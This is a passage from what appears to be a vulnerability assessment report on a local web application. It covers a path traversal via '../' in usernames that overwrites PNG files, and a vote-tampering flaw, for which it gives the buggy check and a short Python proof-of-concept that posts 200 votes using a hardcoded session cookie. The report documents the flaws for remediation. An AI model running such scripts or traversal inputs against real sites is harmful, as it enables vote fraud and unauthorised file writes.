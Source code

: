 - writing outside `data` directory with the use of `../`
  - `data/`**`../db/kamzik.png`** -> **`db/kamzik.png`**
![content of db folder](img/traversal.png)

### 2.2.4 Impact

Attacker can create new or overwrite existing PNG files on the file system. Since the attacker is limited to files that end with `.png` the likelyhood of Remote Code Execution is quite low.

### 2.2.5 Recommendation

Usernames should only be allowed to use alphanumeric characters. Any pathname that can somehow be influenced by external input should be validated, for example by checking if the canonicialized pathname starts with the allowed base directory.


### **2.3 Vote tempering**

- **KSI attack name:** Vote tempering
- **Severity:** <span style="color:#f38c00">**Medium**</span>
- **vulnerable URL:** http://127.0.0.1:5000/submission/\<username\>


### 2.3.1 Description

Malicious user can repeatedly vote for other users (more than once per user). Current signature validation only ensures, that users don't vote for themselves.


### 2.3.2 Vulnerable code

In the source code, we can see that the validation checks whether the `user` has already voted for the submission of the `user`. Note that variable `user` does not have the username of the user voting, but rather the username of the author of the submission. It seems that this was done by mistake and was instead meant to check whether user sending the HTTP request has already voted for the submission of `user`.
line 72 in `main.py`:
```python
if get_user_signature(
        database, user
) in get_user_submission(database, user)['votes']:
    return "you have already voted for this", 403
```

### 2.3.3 Proof of Concept
- example code in python that adds 200 votes to LosKokos
- example uses ID of NormanTheLos as we have to be logged in to vote
```python
import requests, time

URL = "http://127.0.0.1:5000/submission/LosKokos"
POST_DATA = {"type": "vote"}
COOKIES = {"user_id": "1374012591"}
for _ in range(200):
  r = requests.post(URL, POST_DATA, cookies=COOKIES)
  time.sleep(0.5)
```